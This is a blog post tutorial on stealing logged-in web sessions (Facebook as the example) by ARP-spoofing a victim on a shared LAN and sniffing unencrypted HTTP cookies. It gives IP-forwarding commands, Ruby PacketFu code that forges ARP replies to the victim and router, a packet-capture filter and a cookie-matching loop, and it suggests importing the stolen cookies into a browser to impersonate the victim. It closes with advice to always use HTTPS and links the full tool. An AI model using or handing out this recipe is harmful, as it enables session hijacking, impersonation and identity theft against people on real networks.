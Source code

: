 ```yaml
---
layout: post
title: "How to Steal a Facebook Identity"
category: posts
permalink: "steal-facebook-identity"
featured_image: /images/hack_facebook.jpg 
description: "How to steal a facebook identity. Identity theft in general - a heads up on why you should use HTTPS for all sites you have an account on."
keywords:
- identity theft
- facebook
- security
- arp spoofing
comments: true
share: true
image:
  social: 2E087549C4.jpg
  social_thumb: 
---
```

How to hack cookie based authentication - a.k.a why you should use HTTPS for all sites you have an account on.


*UPDATE: This hack no longer works with Facebook as its https only now. Cool. This technique though can still be applied to other sites.*

So you want to know how to steal someone’s facebook identity. How to impersonate the poor victim. How to post embarrassing status updates, pictures in his/her name. Naughty, aren’t we? Let’s view this as a tech challenge instead, forget the nasty things we could do with it. This howto touches basic online security issues and some networking internals. Prepare for the journey, fasten your seatbelts. 

Guys, first, seriously, this is definitely not a nice thing to do. Really. Don’t do it. Stop reading right now. 

Well, if you still insist… 

Here’s a list of ingredients: 

* A LAN to operate on. It can be your school’s LAN, your workplace or your home router’s network.
* Some basic knowledge about network protocols: ARP, TCP/IP, Ethernet and HTTP
* Ruby skills. Get some. Really. Trust me, it’s worth it!
* A UNIX-based OS. This might work on windows, too, but no guarantees. I use OS X for daily work.
* Patience. Sometimes a lot.

So, let’s get to know the concepts step by step.
## A short intro to ARP

ARP stands for “Address Resolution Protocol” and - well, what do you know - it handles MAC and IP address conversions on a conventional TCP/IP ethernet based network. As you all know, TCP/IP packets are encapsulated in Ethernet packets, and Ethernet only knows those so-called [MAC (Media Access Control)](http://en.wikipedia.org/wiki/MAC_address) addresses, it has no idea about IP addresses or domain names.

When you send a standard TCP/IP packet from your machine, your OS wraps it up in a nice Ethernet packet and asks your network card to kindly send it to the network card which has the destination MAC address (it is much more complicated (routing, etc.) but this is enough for us in this project).

Therefore your OS needs to know which IP address(es) belong to which MAC address. Of course if there’s a router involved (and there must be if you’re on a LAN) it also needs to know this. This table is filled up when ARP messages travel on the network. An ARP announcement or reply message basically says “hey guys, the IP 1.2.3.4 is associated to the mac address 03:f9:06:e4:6b:0b”.

This IP <—-> MAC conversion list is called the ARP table or ARP cache. We are going to ‘poison’ this table. More on this a few paragraphs later.

## A few thoughts on sessions, users and logins

Most sites are using cookies to handle user logins and authentication. HTTP is a statelessprotocol. A stateless protocol does not require the server to retain information or status about each user for the duration of multiple requests. To have some kind of identification, we use cookies. A cookie is a key-value pair stored in the browser (so client-side) with two more extra information: lifetime and access control. With each request, if the cookie is still alive (lifetime) and the access control allows the server to receive the cookie, the client sends the cookie in its headers. You can read more on this [here](http://en.wikipedia.org/wiki/HTTP_cookie). The cookies are first sent by the server (or server application) which this way try to store user-level data, such as login state, userid, etc.

For example, the most interesting cookies coming from facebook are: c_user , datr , sct and xs - they are enough to identify session for a logged in user. When we log in to facebook, these cookies get set and on every request the server knows who we are (and that we are logged in) using these cookies which the browser sends back every time. We will  intercept these cookies travelling on the network from our victom to facebook’s servers.

## How to intercept communication on a LAN

This is actually easier than you’d think, thanks to serious security flaws in the design of the ARP protocol. Well, ARP is old and back then there weren’t so big security concerns.

Basically we’re going to lie to our victim’s machine saying we’re the router, and also lie to the router saying we’re the victim’s machine.

Let’s imagine a network with 3 hosts: 1 router and 2 client ‘user’ machines. The router has the IP 10.0.0.1 and the clients have 10.0.0.100 and 10.0.0.101. We are 10.0.0.100 and our victim is 10.0.0.101.

To achieve this, recall ARP. We send an ARP announcement/reply to the victim’s machine stating that the router’s IP address is associated to our MAC address, thus every TCP/IP package sent to the router by the victim’s machine will actually be sent to us. The other half of the story is that we also send an ARP message to the router saying that the victim’s IP address is associated to our MAC address this way we get the response packages coming from the router to the client. Then all we need to do is read the travelling packages while forwarding them respectively to the router and the client (so that packages really also reach their destination).

Well, we also need to enable something in the OS which is called ‘packet forwarding’ so that packages not targeted to us get accepted and parsed.

In linux, it is a simple
{% highlight bash %}
echo 1 > /proc/sys/net/ipv4/ip_forward
{% endhighlight %}

In OS X, it’s a bit different
{% highlight bash %}
sysctl -w net.inet.ip.forwarding=1
{% endhighlight %}

 
## Now the stage is set to do some programming.

We will use ruby (1.8 and 1.9 are both good), and we will need the gem called ’PacketFu’ and its dependency PcapRub which is a ruby wrapper to the libpcap library. These will help us with low-level network operations and packet capturing, parsing.

First things first, let’s send out the ARP spoofing packages:

{% highlight ruby %}
arp_packet_victim = PacketFu::ARPPacket.new()
arp_packet_victim.eth_saddr = 'd2:7b:9c:71:7b:6f'       # our MAC address
arp_packet_victim.eth_daddr = 'd4:9e:cb:08:5a:27'       # the victim's MAC address
arp_packet_victim.arp_saddr_mac = 'd2:7b:9c:71:7b:6f'   # our MAC address
arp_packet_victim.arp_daddr_mac = 'd4:9e:cb:08:5a:27'   # the victim's MAC address
arp_packet_victim.arp_saddr_ip = '10.0.0.1'             # the router's IP
arp_packet_victim.arp_daddr_ip = '10.0.0.101'           # the victim's IP
arp_packet_victim.arp_opcode = 2                        # arp code 2 == ARP reply

arp_packet_router = PacketFu::ARPPacket.new()
arp_packet_router.eth_saddr = 'd2:7b:9c:71:7b:6f'       # our MAC address
arp_packet_router.eth_daddr = '29:ef:54:43:78:32'       # the router's MAC address
arp_packet_router.arp_saddr_mac = 'd2:7b:9c:71:7b:6f'   # our MAC address
arp_packet_router.arp_daddr_mac = '29:ef:54:43:78:32'   # the router's MAC address
arp_packet_router.arp_saddr_ip = '10.0.0.101'           # the victim's IP
arp_packet_router.arp_daddr_ip = '10.0.0.1'             # the router's IP
arp_packet_router.arp_opcode = 2                        # arp code 2 == ARP reply

# we send out both packages
arp_packet_victim.to_w(@interface)
arp_packet_router.to_w(@interface)
 {% endhighlight %}

Actually in a real-world situation we need to keep sending these packages during the whole capturing session, for example in a thread.

Now we start a capturing session on the designated interface with some default filtering (port: 80 and HTTP requests. See the filter format docs for more info)

{% highlight ruby %}
capture_session = PacketFu::Capture.new(:iface => 'eth0', :start => true, :promisc => true, :filter => "tcp port 80 and (((ip[2:2] - ((ip[0]&0xf)<>2)) != 0)")
{% endhighlight %}


Now we only need to see if there’s any cookie travelling:
{% highlight ruby %}
capture_session.stream.each { |packet|
  puts "Woohoo I found a cookie" if packet =~ /ookie/
}
{% endhighlight %}

 

Nice and easy. We can then parse these cookies and save them in for example netscape cookie format, which we can import  to a browser session with a firefox plugin called Cookie importer.

### So, what is the lesson? Always use HTTPS. Always.

*UPDATE*

I’ve published the code: [https://github.com/ochronus/ArpSpoof](https://github.com/ochronus/ArpSpoof)
